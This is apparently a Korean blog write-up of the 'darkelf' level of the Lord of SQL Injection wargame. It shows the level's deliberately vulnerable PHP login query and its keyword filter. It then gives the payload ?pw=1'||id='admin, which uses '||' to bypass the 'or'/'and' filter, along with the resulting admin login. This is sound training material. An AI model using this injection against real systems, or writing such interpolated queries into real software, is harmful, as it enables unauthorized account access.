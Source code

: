 ```yaml
---
layout: post
title: ! "[Lord of SQL Injection] LoS - darkelf 문제풀이"
excerpt_separator: <!--more-->
comments: true
categories : [Wargame/Lord of SQL Injection]
tags:
  - Write-up
  - Lord of SQL Injection
---
```


다음 문제는 `darkelf` 이다.  

이번 문제는 이 전 문제와 동일한 풀이 방법으로 풀 수 있었다.  

<!--more-->

코드는 다음과 같다.  

```php
----------------------------------------------------------------------------------
query : select id from prob_darkelf where id='guest' and pw=''
----------------------------------------------------------------------------------

<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect();  
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(preg_match('/or|and/i', $_GET[pw])) exit("HeHe"); 
  $query = "select id from prob_darkelf where id='guest' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
  if($result['id'] == 'admin') solve("darkelf"); 
  highlight_file(__FILE__); 
?>
```

이 전에는 `공백`에 필터링이 있었지만 이번에는 `or`과 `and`에 필터링이 있다.  

`worfman` 문제에서는 `공백`을 사용하지 않기 위해 `||`을 사용했었는데, 이번에는 `or` 문자열을 사용하지 않기 위해 `||`을 사용하면 될 것 같다.  

이 전 문제와 동일하게 URL 뒤에 아래와 같이 입력 해 주었다.  

```
?pw=1'||id='admin
```

```php
--------------------------------------------------------------------------------------------------
query : select id from prob_darkelf where id='guest' and pw='1'||id='admin'
--------------------------------------------------------------------------------------------------

Hello admin
DARKELF Clear!
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect();  
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(preg_match('/or|and/i', $_GET[pw])) exit("HeHe"); 
  $query = "select id from prob_darkelf where id='guest' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
  if($result['id'] == 'admin') solve("darkelf"); 
  highlight_file(__FILE__); 
?>
```

`DARKELF Clear!!`
